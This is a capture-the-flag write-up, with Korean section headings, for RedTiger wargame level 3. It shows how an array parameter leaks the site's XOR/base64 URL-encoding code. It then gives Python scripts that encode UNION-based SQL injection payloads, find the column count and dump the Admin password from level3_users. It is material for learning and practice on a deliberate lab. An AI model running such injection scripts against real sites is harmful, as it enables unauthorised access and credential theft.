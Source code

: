 ================================================================================================================
[redtiger] level3
================================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5;
        }
        step0 -> step1[label="?usr[]=",arrowhead="normal"];
        step3 -> step2[label="@solve",arrowhead="normal"];
    }

|

Source Analysis
================================================================================================================

- GET 페이지 취약점
- GET 파라미터: usr
- 테이블명: level3_users


Show userdetails: 
TheCow
Admin

.. code-block:: html

    Show userdetails: 
    <a href="?usr=MTQ4MTY4MTY1MTMxMTc1MTgz">TheCow</a>
    <a href="?usr=MTI5MTY0MTczMTY5MTc0">Admin</a>

    <form method="post">
        Username: <input type="text" name="user">
        Password: <input type="text" name="password">
        <input type="submit" name="login" value="Login">
    </form>
    

|

Array Injection
================================================================================================================

.. code-block:: python

    import requests

    requests.packages.urllib3.disable_warnings()

    url = "https://redtiger.labs.overthewire.org/level3.php"
    cookies = {
        "level3login":"securitycat_says_meow_and_likes_cheese"
    }

    # []
    payload = {
        "usr[]": ""
    }

    r = requests.post(url, cookies=cookies, params=payload, verify=False)

    print r.content


[error page]

.. code-block:: html

    Warning: preg_match() expects parameter 2 to be string, array given in /var/www/hackit/urlcrypt.inc on line 21

|

.. code-block:: php

    <?php
            
        function encrypt($str)
        {
            $cryptedstr = "";
            for ($i =0; $i < strlen($str); $i++)
            {
                $temp = ord(substr($str,$i,1)) ^ 192;
                
                while(strlen($temp)<3)
                {
                    $temp = "0".$temp;
                }
                $cryptedstr .= $temp. "";
            }
            return base64_encode($cryptedstr);
        }
      
        function decrypt ($str)
        {
            if(preg_match('%^[a-zA-Z0-9/+]*={0,2}$%',$str))
            {
                $str = base64_decode($str);
                if ($str != "" && $str != null && $str != false)
                {
                    $decStr = "";
                    
                    for ($i=0; $i < strlen($str); $i+=3)
                    {
                        $array[$i/3] = substr($str,$i,3);
                    }

                    foreach($array as $s)
                    {
                        $a = $s^192;
                        $decStr .= chr($a);
                    }
                    
                    return $decStr;
                }
                return false;
            }
            return false;
        }
    ?>

|

.. code-block:: python

    import base64

    def encrypt(_str):
        cryptedstr = ""
        for i in range(len(_str)):
            temp = ord(_str[i:i+1]) ^ 192
            temp = str(temp)
            while len(temp)<3:
                temp = "0" + temp
            cryptedstr += temp
        
        return base64.b64encode(cryptedstr)


|

Column Length
================================================================================================================

.. code-block:: python

    import requests
    import base64

    requests.packages.urllib3.disable_warnings()

    def encrypt(_str):
        cryptedstr = ""
        for i in range(len(_str)):
            temp = ord(_str[i:i+1]) ^ 192
            temp = str(temp)
            while len(temp)<3:
                temp = "0" + temp
            cryptedstr += temp
        
        return base64.b64encode(cryptedstr)

    url = "https://redtiger.labs.overthewire.org/level3.php"
    cookies = {
        "level3login":"securitycat_says_meow_and_likes_cheese"
    }

    n = 0
    bef_ret = ''
    for l in range(20):
        params = {
            "usr": encrypt("' union select %s from level3_users-- " % str(n))
        }
        print "' union select %s from level3_users-- " % str(n)
        n = str(n) + "," + str(l+1)
        r = requests.post(url, cookies=cookies, params=params, verify=False)
        if bef_ret!=r.content and bef_ret!='':
            print r.content

        bef_ret = r.content




|

Data Extract
================================================================================================================



.. code-block:: python

    import requests
    import base64

    requests.packages.urllib3.disable_warnings()

    def encrypt(_str):
        cryptedstr = ""
        for i in range(len(_str)):
            temp = ord(_str[i:i+1]) ^ 192
            temp = str(temp)
            while len(temp)<3:
                temp = "0" + temp
            cryptedstr += temp
        
        return base64.b64encode(cryptedstr)

    url = "https://redtiger.labs.overthewire.org/level3.php"
    cookies = {
        "level3login":"securitycat_says_meow_and_likes_cheese"
    }


    params = {
        "usr": encrypt("' union select 1,2,3,username,password,6,7 from level3_users where username='Admin' -- ")
    }

    r = requests.post(url, cookies=cookies, params=params, verify=False)
    print r.content